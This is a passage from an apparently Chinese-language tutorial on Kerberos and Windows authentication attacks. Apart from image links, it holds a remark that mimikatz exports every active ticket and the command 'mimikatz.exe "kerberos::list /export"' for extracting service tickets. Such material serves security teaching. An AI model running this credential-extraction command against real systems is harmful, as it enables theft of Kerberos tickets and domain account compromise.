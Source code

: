 ![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-185f2021975d43edb29b42da75bec50f.png)

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-5b11c5db45d84f06b08c16dd6af023be.png)


使用mimikatz提取服务票证

> 是个好方法，但是缺点很大，会导出所有活动的票据，如果有一万个则会导出一万个

```powershell
mimikatz.exe "kerberos::list /export" exit exit
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-5b53f353bb974e37907e3a868fc3528f.png)
